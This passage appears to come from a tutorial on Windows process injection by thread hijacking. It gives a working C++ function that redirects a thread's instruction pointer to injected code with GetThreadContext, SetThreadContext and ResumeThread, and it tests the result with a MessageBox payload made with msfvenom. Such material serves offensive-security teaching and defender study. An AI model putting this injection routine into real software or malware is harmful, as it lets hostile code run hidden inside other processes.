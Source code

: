 ## Hijacking the thread

Last but not least we implement the function that'll hijack that thread we retrieved before:

It will be the same logic as the one explained above.

```cpp
BOOL ThreadHijacking(IN HANDLE* hThread, IN PVOID* pAddess) {

    CONTEXT context;

    context.ContextFlags = { CONTEXT_CONTROL };

    if (!GetThreadContext(*hThread, &context)) {

        printf("GetThreadContext failed with error %x", GetLastError());
        return FALSE;
    }

    context.Rip = (uintptr_t)(*pAddess);

    if (!SetThreadContext(*hThread, &context)) {
        printf("SetThreadContext failed with error %x", GetLastError());
        return FALSE;
    
    }
    ResumeThread(*hThread);

    WaitForSingleObject(*hThread, INFINITE);
    return TRUE;
}
```

## Execution

Testing the code we can see that our MessageBox is being triggered (you can generate a simple messagebox payload using msvenom).
